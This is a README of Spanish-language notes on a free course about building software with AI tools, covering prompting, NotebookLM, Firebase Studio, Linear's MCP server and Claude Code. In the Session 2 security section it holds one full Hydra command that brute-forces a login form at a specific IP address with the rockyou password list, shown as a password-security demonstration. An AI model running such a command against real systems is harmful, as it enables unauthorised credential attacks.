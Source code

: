 # Curso de Desarrollo con IA Gratis
- De 0 a MVP con IA
- https://thebigschool.com/sp/curso-desarrollo-ia-a-rrss-brais/
- Brais Moure
- Nerea Luis
- Carlos Azaustre
- Kiko Palomeras
- Alan Buscaglia
- Daniela Maissi

## Sesión 1: Descubre cómo pasar de idea a prototipo en horas, mediante el diseño de prompts técnicos para obtener código de calidad
- https://www.youtube.com/watch?v=tV7DKYdsG_4
- [NotebookLM](https://notebooklm.google/)
    - Múltiples fuentes
    - Chat
    - Resumen (audio, vídeo)
    - Mapa mental
- Problema: decidir un stack tecnológico
- ChatGPT o Gemini:
    - "Haz un análisis de esta librería de código https://github.com/ultralytics/ultralytics"
    - "Quiero un prompt refinado para aprender a usar..."
- Se pueden ver los razonamientos
- Prompt para SEO: pedir a Gemini el copy
    - [Firebase Studio](https://firebase.studio/)
        - Le pasamos un boceto del Excalidraw con el look & feel.
        - Le pasamos también el copy que Gemini nos ha devuelto

## Sesión 2: Descubre cómo dominar la Inteligencia Artificial para desarrollar proyectos seguros, mediante la creación de un equipo de IA con el que implementar, testear y documentar un proyecto haciendo que colaboren entre sí
- https://www.youtube.com/watch?v=ssPPIY3EJcc
- ChatGPT 5: nos escribe un "requirimientos.md"
- [Linear's MCP Server](https://linear.app/docs/mcp)
- Desde Claude, pedimos que nos genere todos los tickets de Linear para la historia de usuario que está en requerimientos.md
- Kiko Palomeras
- https://chatgpt.com/codex/
- [AGENTS.md](https://agents.md/)
- [Alan Buscaglia](https://www.linkedin.com/in/alanbuscaglia)
    - https://www.anthropic.com/engineering/claude-code-best-practices
    - Claude Code with task managers
    - Recomienda usar Claude Max: https://www.claude.com/pricing/max
    - Los subagentes sólo existen en Claude
- [Daniela Maissi](https://www.linkedin.com/in/daniela-maissi-43045510b)
    - Login form creado por la IA...
    - Brute force: SecList, [Hydra](https://hackviser.com/tactics/tools/hydra) (test password security) + [Rockyou](https://weakpass.com/wordlists/rockyou.txt) (list of passwords)
    - `hydra -l admin -P /usr/share/wordlists/rockyou.txt -t 16 -f -V 47.62.198.88 http-post-form "/index.php:username=^USER&password=^PASS:Credenciales incorrectas" -o hydra_results.txt`


## Sesión 3: Descubre cómo automatizar tus procesos de desarrollo con IA y conviértete en un perfil más competitivo en el panorama actual
- TBD


## References
- https://thebigschool.com/wp-content/uploads/2025/10/Apuntes-Curso-Desarrollo-Clase-1-.pdf
- https://thebigschool.com/wp-content/uploads/2025/10/Apuntes-Curso-Desarrollo-Clase-2.pdf
- https://the-amazing-gentleman-programming-book.vercel.app/es/book/Chapter15_IA-Driven-Development
